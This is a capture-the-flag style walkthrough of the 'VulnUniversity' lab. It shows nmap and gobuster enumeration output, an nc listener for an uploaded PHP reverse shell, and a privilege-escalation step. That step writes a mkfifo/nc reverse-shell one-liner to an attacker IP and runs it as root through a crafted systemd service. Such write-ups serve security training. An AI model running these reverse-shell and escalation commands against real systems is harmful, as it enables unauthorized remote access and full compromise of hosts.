



# VulnUniversity 
## Reconnaissance
###### IP address : 10.10.28.18
---

## Scanning & Enumeration
* #### nmap scan
``` 
    nmap -sC -sV 10.10.28.18
```
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-27 09:45 +01
Nmap scan report for 10.10.28.18
Host is up (0.14s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2020-03-27T04:46:02-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-27T08:46:02
|_  start_date: N/A
...

```
* ### sub directory discovery
 Locating directories using GoBuster
 ```
  # gobuster dir -u http://10.10.28.18:3333/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 ```
 ```
 Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.28.18:3333/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/03/27 11:14:58 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
...
 ```

---
## Explotaiton
* #### exploiting file inclusion vulnerability


---
* #### Use PHP reverse shell exploit [here](exploit/)
Listen for incomming connection on port 1337
```
nc -lvnp 1337
```
upload the reverse shell code and run the attaack

* #### Privilege Escalation
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.18.201 1234 >/tmp/f" > /tmp/shell.sh
```

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "bash /tmp/shell.sh"
[Install]
WantedBy=multi-user.target' > $TF

/bin/systemctl link $TF
/bin/systemctl enable --now $TF

```
I'm root

## Maintainning Access


---
## Cleaning

---